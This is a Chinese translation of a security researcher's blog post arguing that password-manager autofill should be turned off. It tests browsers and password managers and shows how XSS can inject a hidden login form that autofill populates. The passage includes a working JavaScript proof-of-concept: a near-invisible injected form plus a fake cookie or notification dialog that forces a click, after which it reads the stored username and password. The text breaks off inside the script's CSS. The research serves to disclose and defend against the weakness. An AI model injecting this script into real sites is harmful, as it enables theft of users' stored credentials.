





# （翻译）你应该关闭你密码管理器中的自动填充功能

> 原文 [You should turn off autofill in your password manager](https://marektoth.com/blog/password-managers-autofill/)

个人更新：

- 2021.7.31：完成前三节的翻译
- 2021.7.31：完成 Analysis of browsers and password managers 一节的翻译
- 2021.8.1：完成 Limitation 到 Potentia; risks for users 章节的翻译

---

2021.7.13

---

更新：

- 2021.7.19：为“用户的潜在威胁”这一章节添加了例子，并解释了自动填充的类型
- 2021.7.27：编辑了 Firefox 的禁用自动填充
- 2021.7.31：添加了 FAQ 章节；在新版 edge 中，您可以设置在填写保存的密码之前要求输入系统密码

提醒：

- 这篇文章不是关于手动自动填充（即在 UI 中点击），而主要是关于无需用户交互（或者少量交互——即一次任意地方的点击）即可填充密码的密码管理器。
- XSS 漏洞可以出现在域名中的任何位置，因此登录页面上的 XSS 不是必需的。

---

密码管理器在 IT 安全领域是一个非常流行的话题。我个人也（并只）同意使用密码管理器。毕竟对于人来说记住几十个独特的密码几乎是不可能的。

然而，“自动填充功能应该被禁用”或“应设置成仅当用户请求时填充”这类话题则通常很少被提到。相反，这项功能更经常被描述为能够确保方面和“安全”的有用功能。是的，它确实很方便，但是会丢失安全性。

**大部分的密码管理器都默认开启自动填充功能**，即使它会减少储存的密码的安全。

如果用户使用默认配置或遵循密码管理器的建议，那么**通过鼠标单击，能够从 11 个经过测试的浏览器和密码管理器（总共 16 个）中窃取到登录凭据**。因此即使数据库/密码没有泄露，攻击者也能够获取到你的数据——这些用户密码都是可读且未加密的明文形式。


自动填充可以分为两类：**自动的自动填充**（无需用户交互自动进行密码填充）和**手动的自动填充**（在进行一些用户交互——比如点击密码管理器的 UI 后，自动填充密码）。在文章的后续，自动填充这一术语描述的是自动的自动填充这一类型。

该博文内容包含：

- [（翻译）你应该关闭你密码管理器中的自动填充功能](#翻译你应该关闭你密码管理器中的自动填充功能)
  - [自动填充](#自动填充)
  - [在基于 chromium 的浏览器中的自动填充](#在基于-chromium-的浏览器中的自动填充)
  - [滥用自动填充？跨站脚本（XSS）](#滥用自动填充跨站脚本xss)
  - [浏览器和密码管理器分析](#浏览器和密码管理器分析)
    - [1) 浏览器和密码管理器的默认配置](#1-浏览器和密码管理器的默认配置)
      - [1.1) 在不同 URL 路径和改变了属性的表单中的自动填充](#11-在不同-url-路径和改变了属性的表单中的自动填充)
      - [1.2) 子域名下的自动填充](#12-子域名下的自动填充)
    - [2) 需要额外启动自动填充的密码管理器](#2-需要额外启动自动填充的密码管理器)
      - [2.1) 在不同 URL 路径和改变了属性的表单中的自动填充](#21-在不同-url-路径和改变了属性的表单中的自动填充)
      - [2.2) 子域名下的自动填充](#22-子域名下的自动填充)
  - [限制](#限制)
  - [脚本和演示](#脚本和演示)
  - [点击劫持与 KeePassXC-Browser](#点击劫持与-keepassxc-browser)
  - [用户的潜在威胁](#用户的潜在威胁)
  - [企业的潜在威胁/信息安全的建议](#企业的潜在威胁信息安全的建议)
  - [建议](#建议)
  - [FAQ](#faq)

## 自动填充

顾名思义，该功能能够确保密码管理器自动填充登录表单。数据只会在已存储了数据的域名预填充。

自动填充的行为取决于很多因素。除了域名之外，协议的使用（http/https）、表单属性以及元素 ID 和名称都会检查。

从安全的角度来看，这项功能能够用于验证用户是否处于钓鱼网站。如果用户正在钓鱼网站，那么数据不会自动填充。用户可能因此注意到异常行为并检查他们所处的域名。

除了“验证”钓鱼网站之外，这更是一种方便的的登录功能，因为用户无需点击任何地方便能够预填充所有的内容。然而，预填充数据存在问题，因为所有的数据都是可读形式（即明文）并且能够被 JavaScript 获取。

## 在基于 chromium 的浏览器中的自动填充

在基于 chromium 的浏览器（除了 Brave）中，自动填充功能的工作方式和 Firefox 或常规密码管理器有些许不同。

在上述浏览器中，数据（看上去）在第一次查看时会自动填充，但事实并非如此。表单中显示的数据并没有真正填写，这些数据只有在用户与网站交互时才会真正填写。

用户交互的类型必须是 isTrusted （即由用户触发），带有比如按键或鼠标点击等事件。mouseover、mousemove 和类似的”更简单“的时间则不会触发完全自动填充。如果在没有事先与网站用户交互的情况下显示输入的内容，那么得到的只有空值。

我创建了一个能够在 5 秒后显示表单内容的值的脚本用于演示：

```html
<form action="/example.html">
  <label for="username">Username</label><br />
  <input type="text" id="username" name="username" /> <br />
  <label for="psw">Password</label><br />
  <input type="password" id="password" name="password" /><br /><br />
  <input type="submit" value="Submit" />
</form>

<script>
  window.setTimeout(function () {
    var username = document.getElementById("username").value;
    var password = document.getElementById("password").value;

    alert(username + ":" + password);
  }, 5000);
</script>
```

你可以从下面的动画中明白在基于 chromium 的浏览器中自动填充是如何工作的：

无点击：


1 次点击：


因此攻击者需要用某种方式诱使用户点击网站上的某处。如果我是攻击者，我可能会使用显示通知或 cookie 对话框。这两种类型的元素都很频繁地显示在网站上，因此受害者可能不会怀疑是可疑活动。

我们的目标不是让用户准确的点击某个地方，只需要进行点击就足够了。在我看来，显示一个让浏览网站的行为感到不舒服、并且需要与网站交互才能删除的元素，这是一种非常有效的从用户获取点击的方式。

## 滥用自动填充？跨站脚本（XSS）

XSS 是最常见的 Web 漏洞。如果网页存在这种类型的漏洞，则可以将 JavaScript 代码注入该页面。然后注入的代码将执行攻击者定义的操作，例如窃取登录凭据。

有几种方法可以使用 XSS 窃取用户登录凭据。有人可能会考虑捕获输入到登录表单的值或更改表单操作值（即发送数据的地址）。那么我有几个问题：

- 如果 XSS 漏洞与登录表单不在同一页面怎么办？
- 如果用户已经登录，导致登录表单不可用怎么办？

答案可能是向用户显示一个全新的登录表单。理想情况下，更改前端使其看起来像是已注销需重新登录。

是的，上述方法可能有效，但使用这种方法，我将不得不依赖受害者重新输入他们的凭据。但是如果用户没有填写新的登录表单呢？

我不喜欢受害者的复杂交互。如果希望用户进行 2 次以上的正常鼠标点击，那就是要求太高并且需要考虑不同的解决方案了。除了其他事项之外，如果我要求用户再次登录（重新输入凭据），此时它主要基于社会工程学的角度（而非技术方面）。

我的解法是滥用密码管理器的自动填充功能。如果知道了 XSS 漏洞，**我会用 JavaScript 创建一个对用户完全隐藏的新登录表单**。密码管理器将检测到此表单的存在，并将数据自动填充进去。所以我们的目标是利用正在使用的密码管理器的错误配置。

<span style="color:#1ea91c7d;font-weight:bold;">优点：</span>

- 攻击发生在后台
- 受害者无需或只需要最少的交互（1 次点击）
- **XSS 漏洞存在于域名中各处**，对于某些密码管理器来说子域名也足够（使用 XSS 漏洞）
- 用户依然可以登录

<span style="color:brown;font-weight:bold;">局限：</span>

- 用户需要在域名下储存密码
- 用户需要在密码管理器中启动自动填充功能
- 密码管理器不能被锁定/注销

**“XSS 虚假登录界面”和“XSS 隐藏登录表单”之间用户交互的区别：**

- XSS 虚假登录界面：点击输入用户名/邮箱，填充用户名/邮箱，点击输入密码，填充密码 = 4 次交互
- XSS 隐藏登录表单：**0~1 次交互（最多一次点击或按键）**

## 浏览器和密码管理器分析

作为分析的一部分，我主要测试了最常用的浏览器和密码管理器。 对于密码管理器，我仅测试了浏览器扩展程序，并且在桌面版本（尤其是 Google Chrome）中验证了所有内容。 因此类似的行为在手机上可能完全不同。

**测试的浏览器：**

- Google Chrome 91.0.4472.124 - <https://www.google.com/chrome>
- Mozilla Firefox 89.0.2 - <https://www.mozilla.org>
- Safari 14.1.1 - <https://www.apple.com/safari>
- Microsoft Edge 91.0.864.64 - <https://www.microsoft.com/edge>
- Opera 77.0.4054.172 - <https://www.opera.com>
- Internet Explorer 11 - <https://www.microsoft.com/internetexplorer>
- Brave 1.26.74 - <https://brave.com>
- Vivaldi 4.0.2312.36 - <https://vivaldi.com>

**测试的密码管理器：**

- LastPass 4.75.0 - <https://chrome.google.com/webstore/detail/hdokiejnpimakedhajhdlcegeplioahd>
- 1Password 2.0.4 - <https://chrome.google.com/webstore/detail/aeblfdkhhhdcdjpifhhbdiojplfjncoa>
- Bitwarden 1.51.0 - <https://chrome.google.com/webstore/detail/nngceckbapebfimnlniiiahkandclblb>
- Dashlane 6.2123.1 - <https://chrome.google.com/webstore/detail/fdjamakpfbbddfjaooikfcpapjohcfmg>
- Roboform 9.2.3.0 - <https://chrome.google.com/webstore/detail/pnlccmojcmeohlpggmfnbbiapkmbliob>
- Keeper 15.3.5 - <https://chrome.google.com/webstore/detail/bfogiafebfohielmmehodmfbbebbbpei>
- KeePassXC-Browser 1.7.8.1 - <https://chrome.google.com/webstore/detail/oboonakemofpalcgghocfoadofidjkkk>
- Sticky Password 8.3.1.3 - <https://chrome.google.com/webstore/detail/bnfdmghkeppfadphbnkjcicejfepnbfes>

### 1) 浏览器和密码管理器的默认配置

| 浏览器/密码管理器     |                启用自动填充                |           需要用户操作来填充数据           |                                           用户操作                                            |
| :-------------------- | :----------------------------------------: | :----------------------------------------: | :-------------------------------------------------------------------------------------------: |
| **Google Chrome**     |  <span style="color:#d6121299">是</span>   |                     是                     |               <span style="color:#d6121299">与网页交互（按键或鼠标点击）</span>               |
| **Mozilla Firefox**   |  <span style="color:#d6121299">是</span>   |  <span style="color:#d6121299">否</span>   |                                                                                               |
| **Safari**            |  <span style="color:#1ea91c7d">否</span>   |                     是                     |                                     从自动完成菜单中选择                                      |
| **Microsoft Edge**    |  <span style="color:#d6121299">是</span>   |                     否                     |               <span style="color:#d6121299">与网页交互（按键或鼠标点击）</span>               |
| **Opera**             |  <span style="color:#d6121299">是</span>   |                     否                     |               <span style="color:#d6121299">与网页交互（按键或鼠标点击）</span>               |
| **Internet Explorer** |  <span style="color:#d6121299">是</span>   |  <span style="color:#d6121299">否</span>   |                                                                                               |
| **Brave**             |  <span style="color:#1ea91c7d">否</span>   |                     是                     |                                     从自动完成菜单中选择                                      |
| **Vivaldi**           |  <span style="color:#d6121299">是</span>   |                     是                     |               <span style="color:#d6121299">与网页交互（按键或鼠标点击）</span>               |
| **密码管理器**        |
| **LastPass**          |  <span style="color:#d6121299">是</span>   |  <span style="color:#d6121299">否</span>   |                                                                                               |
| **1Password**         |  <span style="color:#1ea91c7d">否</span>   |                     是                     |                                       从 UI 拓展中选择                                        |
| **Bitwarden**         |  <span style="color:#1ea91c7d">否</span>   |                     是                     |                             从内容菜单中选择<br>从 UI 拓展中选择                              |
| **Dashlane**          |  <span style="color:#d6121299">是</span>   |  <span style="color:#d6121299">否</span>   |                                                                                               |
| **Roboform**          |  <span style="color:#1ea91c7d">否</span>   |                     是                     |                             点击表单中的图标<br>从 UI 拓展中选择                              |
| **Keeper\***          | <span style="color:#d6841299">是/否</span> | <span style="color:#d6841299">否/是</span> |                                                                                               |
| **KeePassXC-Browser** |  <span style="color:#1ea91c7d">否</span>   |                     是                     | <span style="color:#d6841299">点击表单中的图标（容易受到点击劫持）<br>从 UI 拓展中选择</span> |
| **Sticky Password**   |  <span style="color:#d6121299">是</span>   |  <span style="color:#d6121299">否</span>   |                                                                                               |

- <span style="color:#d6121299">红色</span>代表比较危险
- <span style="color:#1ea91c7d">绿色</span>代表比较安全
- <span style="color:#d6841299">黄色</span>代表取决于用户选择
- \*Keeper 在首次登录时询问用户是否为该域名启用自动填充 - 向用户高亮“是”

Mozilla Firefox 和 Internet Explorer 会自动填充密码。谷歌浏览器和“基于 chromium 的”浏览器（Brave 除外）只在用户与网站交互时填充密码。**总共可以在 6 个浏览器中一键获取密码。**

至于密码管理器，其中 3 个默认启用自动填充。Keeper 密码管理器会在用户第一次使用储存的凭据之前使用对话框让用户确认。对话框会询问用户是否要在当前域名下启用自动填充。但比较令人担心的是高亮的是“是”选项。一旦对话框被确认，用户将不再会被询问并且数据将会完全自动的填充。


通过使用自定填充的密码管理器，数据无需和网站交互便可自动填充，级完全自动并且无需用户帮助。如果算上 Keeper 和最近易受攻击的 KeePassXC-Browser，总共**可以一键获取 5 个密码管理器储存的密码**。

自动填充的行为取决于你使用的密码管理器。对于仅使用 Brave 浏览器输入密码的用户，不会出现自动填充的情况。如果用户只讲 Brave 作浏览器用，并使用例如 LastPass 等密码管理器作为主要密码管理，那么此时浏览器的行为会受到密码管理器的影响。
所以如果安装了 LastPass ，Brave 浏览器依然会自动填充数据。

#### 1.1) 在不同 URL 路径和改变了属性的表单中的自动填充

测试用例：

- 凭据储存在：https://<span style="color:#1ea91c7d">example</span>.com
- 不同的 URL 路径：https://<span style="color:#1ea91c7d">example</span>.com<span style="color:#d6121299">/foo</span>
- 子域名：https://<span style="color:#d6121299">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com

| 浏览器/密码管理器     | 不同路径<br> 同属性 | 不同路径<br>不同输入 id | 不同路径<br> 不同输入名 | 不同路径<br> 不同表单行为 | 不同路径<br> 网站加载完成后改变表单行为 | 子域名<br> 同属性 |
| :-------------------- | :-----------------: | :---------------------: | :---------------------: | :-----------------------: | :-------------------------------------: | :---------------: |
| **Google Chrome**     |         是          |           是            |           是            |            是             |                   是                    |        否         |
| **Mozilla Firefox**   |         是          |           是            |           是            |            否             |                   是                    |        否         |
| **Microsoft Edge**    |         是          |           是            |           是            |            是             |                   是                    |        否         |
| **Opera**             |         是          |           是            |           是            |            是             |                   是                    |        否         |
| **Internet Explorer** |         是          |           是            |           是            |            是             |                   是                    |        否         |
| **Vivaldi**           |         是          |           是            |           是            |            是             |                   是                    |        否         |
| **密码管理器**        |
| **LastPass**          |         是          |           是            |           否            |        警示对话框         |                   是                    |        是         |
| **Dashlane**          |         是          |           是            |           是            |            是             |                   是                    |        否         |
| **Keeper**            |         是          |           是            |           是            |            是             |                   是                    |        否         |
| **KeePassXC-Browser** |         是          |           是            |           是            |        警示对话框         |                   是                    |    警示对话框     |
| **Sticky Password**   |         是          |           是            |           是            |        警示对话框         |                   是                    |        是         |

如果发生攻击，最重要的信息是当表单显示在另一个 URL 或子域上时密码管理器的行为。在创建新的表单时，攻击者能够更改名称、输入 ID 或其他属性。

令人不安的是，LastPass 和 Sticky Password 即使在子域名也会填写数据。

#### 1.2) 子域名下的自动填充

测试用例：

- 新创建的表单始终与储存数据的表单具有相同的属性
- 凭据储存在：https://<span style="color:#1ea91c7d">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com
- 同子域名下的不同 URL 路径：https://<span style="color:#1ea91c7d">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com<span style="color:#d6121299">/foo</span>
- 不同的子域名：https://<span style="color:#1ea91c7d">subdomain2</span>.<span style="color:#1ea91c7d">example</span>.com
- 4 级子域名：https://<span style="color:#d6121299">foo</span>.<span style="color:#1ea91c7d">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com

| 浏览器/密码管理器     | 同子域名（不同路径） | 不同子域名 | 4 级子域名 |
| :-------------------- | :------------------: | :--------: | :--------: |
| **Google Chrome**     |          是          |     否     |     否     |
| **Mozilla Firefox**   |          是          |     否     |     否     |
| **Microsoft Edge**    |          是          |     否     |     否     |
| **Opera**             |          是          |     否     |     否     |
| **Internet Explorer** |          是          |     否     |     否     |
| **Vivaldi**           |          是          |     否     |     否     |
| **密码管理器**        |
| **LastPass**          |          是          |     是     |     是     |
| **Dashlane**          |          是          |     否     |     否     |
| **Keeper**            |          是          |     否     |     否     |
| **KeePassXC-Browser** |          是          |     否     | 警示对话框 |
| **Sticky Password**   |          是          |     否     |     是     |

在 **LastPass** 中，即使是在与保存数据的子域名完全不同的子域名中，数据也会填充。

### 2) 需要额外启动自动填充的密码管理器

有的用户可能想从基于浏览器的密码管理器切换到另一个，并且（切换后）拥有同样的行为。话句话说，当使用不同的密码管理器时，（他们希望）数据将会像往常一样自动填充。因此他们决定在设置中启用这个功能（指自动填充）。

在其余的密码管理器中，1Password、Brave 和 Safari 无法设置启动自动填充。而对于 Bitwarden、KeePassXC-Browser 和 Roboform 来说，这是可以的。如果只启用该功能（没有其他修改），那么所有的密码管理器都无需用户其他操作自动填充数据。

Bitwarden 提前警告这是一项“实验性”的功能。这条提醒并没有给用户什么有用的信息。首先，**实验并不意味着不安全**。


唯一对这项功能的使用作出提醒（说存在不安全性）的密码管理器只有 KeePassXC-Browser。


#### 2.1) 在不同 URL 路径和改变了属性的表单中的自动填充

测试用例：

- 仅测试了启用该功能。 其他设置未更改，例如 URL 匹配等。
- 凭据储存在：https://<span style="color:#1ea91c7d">example</span>.com
- 不同的 URL 路径：https://<span style="color:#1ea91c7d">example</span>.com<span style="color:#d6121299">/foo</span>
- 子域名：https://<span style="color:#d6121299">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com

| 浏览器/密码管理器     | 不同路径<br> 同属性 | 不同路径<br>不同输入 id | 不同路径<br> 不同输入名 | 不同路径<br> 不同表单行为 | 不同路径<br> 网站加载完成后改变表单行为 | 子域名<br> 同属性 |
| :-------------------- | :-----------------: | :---------------------: | :---------------------: | :-----------------------: | :-------------------------------------: | :---------------: |
| **Bitwarden**         |         是          |           是            |           是            |            是             |                   是                    |        是         |
| **Roboform**          |         是          |           是            |           是            |            是             |                   是                    |        是         |
| **KeePassXC-Browser** |         是          |           是            |           是            |        警示对话框         |                   是                    |    警示对话框     |

开启自动填充功能后（未做其他额外设置），储存密码的安全性下降了。例如，Bitwarden 或 RoboForm 也会在子域名填充数据。

#### 2.2) 子域名下的自动填充

测试用例：

- 新创建的表单始终与储存数据的表单具有相同的属性
- 凭据储存在：https://<span style="color:#1ea91c7d">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com
- 同子域名下的不同 URL 路径：https://<span style="color:#1ea91c7d">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com<span style="color:#d6121299">/foo</span>
- 不同的子域名：https://<span style="color:#1ea91c7d">subdomain2</span>.<span style="color:#1ea91c7d">example</span>.com
- 4 级子域名：https://<span style="color:#d6121299">foo</span>.<span style="color:#1ea91c7d">subdomain</span>.<span style="color:#1ea91c7d">example</span>.com

| 浏览器/密码管理器     | 同子域名（不同路径） | 不同子域名 | 4 级子域名 |
| :-------------------- | :------------------: | :--------: | :--------: |
| **Bitwarden**         |          是          |     是     |     是     |
| **Roboform**          |          是          |     是     |     是     |
| **KeePassXC-Browser** |          是          |     否     | 警示对话框 |

Bitwarden 和 Roboform 会在与保存凭据的子域完全不同的子域中填充数据。

## 限制

要成功实行攻击，除了需要自用自动填充功能外，还需要满足其他条件。在特定域名保存多个登陆数据会极大地限制攻击的进行。因为如果用户储存了多个凭据，有些密码管理器会不知道该填充哪个。有些密码管理器填充最后使用过的数据，有些则让用户自己选择，这会使得自动填充功能不起作用。

| 浏览器/密码管理器     |      多个登陆名下的自动填充       |
| :-------------------- | :-------------------------------: |
| **Google Chrome**     |           是 - 最近使用           |
| **Mozilla Firefox**   |                否                 |
| **Safari**            |               ----                |
| **Microsoft Edge**    |           是 - 最近使用           |
| **Opera**             |           是 - 最近使用           |
| **Internet Explorer** |                否                 |
| **Brave**             |               ----                |
| **Vivaldi**           |           是 - 最近使用           |
| **密码管理器**        |
| **Bitwarden**         | 是 - 最近使用（启用自动填充功能） |
| **Dashlane**          |              是/否\*              |
| **Roboform**          |      否（启用自动填充功能）       |
| **Keeper**            |                否                 |
| **KeePassXC-Browser** |      否（启用自动填充功能）       |
| **Sticky Password**   |                否                 |

\*在当前标签页中选择过一次登录凭据的用户是“是”。在全新标签页中则是“否”。

**其他限制：**

只能窃取一个特定域名下储存的密码。

LastPass：

- 仅针对成功登录后储存的密码进行自动填充。

Keeper：

- 首次登录会询问用户是否为该域名启动自动填充，并且高亮显示“是”。
- 对话确认后不在询问用户，数据完全自动填充。

## 脚本和演示

每个密码管理器检查登录表单的方式略有不同。有的管理器可能要求表单对用户可见，有的则允许隐藏。

我在编写脚本时发现了如下限制：

- 基于 chromium 的浏览器：
  - 用户必须和网站交互
  - 表单可以完全隐藏（`display:none`）
- Dashlane：
  - 不能使用 `display:none`
  - 表单至少有 0.2 的不透明度
  - 表单必须在用户可见区域（比如不能在 `left: -1000px` 的区域）
  - 默认执行自动登录（自动提交）
- Keeper：
  - 不能使用 `display:none`
  - 表单能够使用 `opcaity:0` （即完全透明）
  - 默认执行自动登录（自动提交）
- Sticky Password：
  - 不能使用 `display:none` 或 `opcaity:0` ，但能够使用 `opcaity:0.000001`
  - 表单必须在用户可见区域——但是可以为右/底设置负值（比如 `left:-1000px` 不行但是 `bottom:-1000px` 行）
  - 默认执行自动登录（自动提交）
- Bitwarden：
  - 不能使用 `display:none` 或 `opcaity:0` ，但能够使用 `opcaity:0.000001`
  - 表单必须在用户可见区域

**“旁路”解决了表单的可见性**~~_（bypass 暂时不知道怎么翻译，先翻译成旁路吧_~~

表单必须被设置成：`position: fixed; bottom: - {表单的高度 - X}px;`

X = 密码管理器的最小可见部分，比如 Bitwarden 是 3.0001（比 3 大），Dashlane 是 2。

新建的表单最多课可见 1.5 秒。密码管理器将检测可见表单并填写数据。

**脚本（for Red Team/ethical purposes）：**

尽管限制很多，我还是在测试网站上写出了一个可用脚本。这个脚本可以用于测试所有默认启用自动填充了的密码管理器，当然，额外启用自动填充的密码管理器也适用。

开始时可以定义向用户显示哪种警示对话框（用于强制点击），还可以设置对话框后面的覆盖层（用于降低网站可读性）或者阻止滚动。

创建新表单时无需从原始表单复制样式（或类）。

如果脚本被注入到原始登录表单已经存在的站点中，则需要先更改原始表单的所有标识属性。如果没有进行这项更改，密码管理器可能无法在新创建的表单上填写信息。这会导致网站上出现 2 个完全相同的表格。

脚本描述：

1. 创建一个与储存数据的表单相同的新表单。
2. 新表单包含 `onchange()` 时间。如果表单的内容改变（数据填充），那么值将会被提取出来——通过 `document.getElementById("username").value` 和 `document.getElementById("password").value`
3. 如果用户使用密码管理器（除了基于 chromium 的浏览器），那么是不需要和网站进行交互的。因此（脚本要做的）第一件事就是检查新建表单中是否已经有数据填充。
4. 如果数据未在 1500 毫秒内填充，将会有用于强制点击的提醒/cookie 对话框弹出给用户
5. 在基于 chromium 的浏览器中，强制点击会填充数据。

脚本代码：

```js
var overlay = "yes"; // yes, no
var scrolling = "no"; // yes, no
var dialog = "notification"; // notification, cookie

createLoginForm();

window.setTimeout(function () {
  hideLoginForm();

  // function especially for chromium-based browsers
  // show notification or cookie dialog that require a user interaction
  if (!!window.chrome && !document.getElementById("password").value) {
    showDialog();
    addDialogEvents();
  }
}, 1500);

function createLoginForm() {
  var divlogin = document.createElement("div");
  divlogin.style =
    "position: fixed; bottom: -19.9999px; z-index: 2147483647; opacity:0.2";
  divlogin.id = "divlogin";
  divlogin.innerHTML =
    ' \
            <form method="POST" action="login.html" id="form" onchange="getFormValues()"> \
                <input type="text" id="username" name="username" autocomplete=on required> \
                <input type="password" id="password" name="password" autocomplete=on required> \
                <button type="submit" id="submit">Login</button> \
            </form>';
  document.body.appendChild(divlogin);
}

// remove submit button to prevent autosubmit feature in password managers
function removeSubmitButton() {
  if (document.getElementById("submit")) {
    var element = document.getElementById("form");
    var child = document.getElementById("submit");
    element.removeChild(child);
  }
}

function hideLoginForm() {
  divlogin.style.display = "none";
}

function getFormValues() {
  usr = document.getElementById("username").value;
  pw = document.getElementById("password").value;

  if (usr && pw) {
    removeSubmitButton();
    hideLoginForm();
    alert(usr + ":" + pw);
  }
}

function showDialog() {
  var overlaydiv = "";
  var boxshadow = "";

  var dialogdiv = document.createElement("div");
  if (overlay == "yes") {
    overlaydiv = '<div id="overlay"></div>';
    boxshadow =
      "box-shadow:0 1px 12px rgb(5 27 44 / 33%), 0 2px 32px rgb(5 27 44 / 48%) !important;";
  } else {
    boxshadow =
      "box-shadow:0 1px 6px rgb(5 27 44 / 6%), 0 2px 32px rgb(5 27 44 / 16%) !important;";
  }

  if (dialog == "cookie") {
    dialogdiv.innerHTML =
      "<style>.no-scroll {overflow: hidden;} #overlay {position: fixed; display: block; width: 100%; height: 100%; top: 0; left: 0; right: 0; bottom: 0; background-color: rgba(0,0,0,0.5); z-index: 225859400; animation: .5s showoverlay; } #overlay.remove-overlay {animation: .5s hideoverlay; opacity: 0; } @keyframes showoverlay {from { opacity: 0; } to { opacity: 1; } } @keyframes hideoverlay {from { opacity: 1; } to { opacity: 0; } } #cookie-dialog {display: block!important; position: relative!important; opacity: 1!important; visibility: visible!important; margin: 290px auto 0!important; width: 650px!important; -webkit-box-sizing: content-box!important; -moz-box-sizing: content-box!important; box-sizing: content-box!important; max-width: 90%!important; background: #ffffff!important; padding: 12px 24px!important; overflow: hidden!important; z-index: 9999!important; border: 10px solid #5fa624!important; box-shadow: #333 1px 1px 10px 1px!important; line-height: 1.2!important; text-align: left!important; } #cookie-div {font-family: Arial,serif!important;width: 100%!important;height: 100%!important;margin: 0 auto!important;position: fixed!important;top: 0!important;left: 0!important;font-family: Arial,serif!important;z-index: 2258594000!important;overflow-y: auto!important;} #cookie-dialog h2 {font-size: 20px!important; line-height: 16px!important; font-weight: 700!important; margin: 10px 0 16px!important; } #cookie-dialog p {margin: 12px 0!important; line-height: 16px!important; text-indent: 0!important; font-weight: 400!important; font-size: 10pt!important; } #cookie-dialog #button-row {display: flex!important; flex-wrap: nowrap!important; justify-content: space-between!important; margin-right: 265px!important; } .btn {border: 1px solid #000000!important; font-family: Arial,serif!important; color: #000000!important; background: #ffffff!important; padding: 7px 10px!important; text-decoration: none!important; } #cookie-dialog #accept-all {border: none!important; color: #ffffff!important; background: #5fa624!important; text-decoration: none!important; } #links {display: flex!important; font-size: 12px!important; margin-top: 20px!important; } #cookie-dialog a {color: #5fa624!important; text-decoration: none!important; } 